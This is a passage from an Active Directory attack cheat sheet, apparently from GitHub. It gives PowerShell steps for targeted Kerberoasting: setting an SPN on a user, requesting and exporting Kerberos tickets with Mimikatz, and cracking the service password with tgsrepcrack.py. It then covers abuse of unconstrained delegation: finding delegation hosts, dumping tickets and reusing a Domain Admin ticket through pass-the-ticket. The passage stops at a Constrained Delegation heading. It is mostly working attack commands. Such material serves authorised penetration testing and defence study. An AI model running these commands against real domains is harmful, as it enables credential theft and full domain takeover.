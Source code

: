 - Enumerate the permissions for RDPUsers on ACLs using PowerView (dev)
```powershell
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```
- Using Powerview (dev), see if the user already has a SPN
```powershell
Get-DomainUser -Identity mike | select serviceprincipalname
Get-ADUser -Identity mike -Properties ServicePrincipalName | select ServicePrincipalName
```
- Set a SPN for the user
```powershell
Set-DomainObject -Identity mike -Set @{serviceprincipalname='domain/whatever1'}
Set-ADUser -Identity mike -ServicePrincipalNames @{Add='domain/whatever1'}
```
- Request a ticket
```powershell
Request-SPNTicket
#
Add-Type -AssemblyNAme System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "domain/whatever1"
```
- Check if the ticket has been granted
```powershell
klist
```
- Export all tickets using Mimikatz
```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
```
- Crack the Service account password
```powershell
python.exe .\tgsrepcrack.py .\password.list .\2-40a10000-jane@MSSQLSvc~lab-mgmt.domain.local-DOMAIN.LOCAL.kirbi
```

---
#### KERBEROS DELEGATION
Main objective: Allows to "reuse the end-user credentials to access resources hosted on a different server"

- Unconstrained Delegation

    Allows delegation to any service to any resource on the domain as a user

    - Discover domain computers which have unconstrained delegation enabled
        ```powershell
        Get-NetComputer -UnConstrained
        #
        Get-ADComputer -Filter {TrustedForDelegation -eq $True}
        Get-ADUser -Filter {TrustedForDelegation -eq $True}
        ```
        - Check if any DA token is available
        ```powershell
        Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
        ```
        - DA token reuse
        ```powershell
        Invoke-Mimikatz -Command '"kerberos::ptt C:\path\[0;xxxxxxx]-x-x-x-Administrator@krbtgt-LAB.DOMAIN.LOCAL.kirbi"'
        ```
- Constrained Delegation

